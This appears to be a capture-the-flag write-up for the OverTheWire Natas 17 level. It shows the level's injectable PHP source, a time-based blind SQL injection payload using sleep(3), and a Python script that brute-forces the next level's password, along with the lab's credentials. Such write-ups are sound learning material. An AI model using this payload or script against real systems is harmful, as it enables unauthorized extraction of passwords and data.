 # Over The Wire -- Natas 17

## Server URL
```
http://natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw@natas17.natas.labs.overthewire.org
```

## Solution
Again an input box that check if a user exist. Look like Sql Injection again

The php source code :
```php
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas17", "pass": "<censored>" };</script></head>
<body>
<h1>natas17</h1>
<div id="content">
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Same as `Natas15` but we don't get any output.
We are gonna need to do some timing attack.

We can still see the executed query using the `debug` query parameter

In the beginning, I had some trouble getting my timing attack to work so I came back to `Natas15`. In this level, we get some output (User exist, Doesn't exist, query error).

In the end, it was as simple as adding `and sleep(3) #` to the query..

Here is the python script to bruteforce the password :

```py
import requests
import string
import time

url = "http://natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw@natas17.natas.labs.overthewire.org?debug=true"

user = 'natas18'
sleep_time=3
passwd = ""
passwd_len = 32
for i in range(len(passwd), passwd_len):
    for char in string.digits + string.ascii_letters:
        trying = f"{passwd}{char}"
        cmd = f"{user}\" and BINARY password LIKE \"{trying}%\" and sleep({sleep_time}) #"
        start = time.time()
        r = requests.post(url, data={'username':cmd})
        elapsed = time.time() - start

        splitted = r.text.split('Executing query: ')[1].split('<br>')
        query_executed = splitted[0]
        warning_or_error = splitted[1]

        print(f"{query_executed} -- {elapsed}")

        if elapsed > sleep_time:
            passwd += char
            print(f"Got char -- Curent pass : {passwd}")
            break

print(f"Natas18 password is {passwd}")
```

The passord for Natas18 is :
```
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
```

